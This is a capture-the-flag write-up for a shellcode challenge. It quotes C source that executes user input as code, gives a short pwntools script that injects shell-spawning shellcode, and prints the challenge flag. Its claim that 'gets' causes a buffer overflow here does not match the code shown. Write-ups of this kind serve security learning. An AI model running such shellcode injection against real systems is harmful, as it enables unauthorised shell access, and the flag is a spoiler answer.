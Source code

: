 # handy-shellcode

Points: 50

# Question

This [program](vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb on the shell server. [Source](vuln.c).

# Hint 

You might be able to find some good shellcode online.

# Solution

By examining the source file we can see that the program use "gets" function which if vulnerable for buffer overflow 
```C
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

First, let's run the program and try to make it crash.

![](overflow1.png)

using pwn tools its easy to exploit this program [script](script.py) and spawn shell then extract the flag

```python
from pwn import *

sh = process('vuln')
sh.sendlineafter(':\n', asm(shellcraft.i386.linux.sh()))
sh.interactive()```


![](overflow2.png)


# Flag
picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}

